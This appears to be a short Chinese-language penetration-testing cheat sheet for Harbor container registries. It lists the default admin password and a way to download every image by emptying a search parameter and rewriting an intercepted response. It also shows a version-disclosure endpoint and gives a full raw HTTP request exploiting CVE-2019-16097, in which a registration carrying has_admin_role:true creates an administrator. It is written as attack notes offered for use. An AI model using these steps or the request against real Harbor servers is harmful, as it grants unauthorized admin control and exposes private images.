



Habor
目录
镜像仓库
前渗透
web ui 默认密码
admin Harbor12345
配置不当导致镜像任意下载
在界面上找到一个搜索功能: 输入123，然后抓包，对应参数改为空值， 然后发包过去，即可在界面上获取全部的数据

点击要下的镜像，拦截响应包，包体改为这个
{"code":200,"message":"UnAuthorize"}

获取harbor版本信息
/api/systeminfo
或者 登录页右上角→关于

（CVE-2019-16097）Harbor任意管理员注册
Harbor 1.7.6之前版本 Harbor 1.8.3之前版本
POST /api/users HTTP/1.1
Host: 127.0.0.1
Content-Length: 131
Accept: application/json
Origin: http://127.0.0.1
User-Agent: Opera/9.80 (Windows NT 6.0) Presto/2.12.388 Version/12.14
Content-Type: application/json
Referer: http://127.0.0.1/harbor/sign-in
Accept-Language: zh-CN,zh;q=0.9
Cookie: sid=5bb9aad90164bd2ed5274edaf20f9c81
Connection: close
{"username":"mrhonest","email":"mrhonest@qq.com","realname":"mrhonest","password":"111111Aaa","comment":"11111","has_admin_role":true}
主要是"has_admin_role":true这个属性才造成的任意管理员注册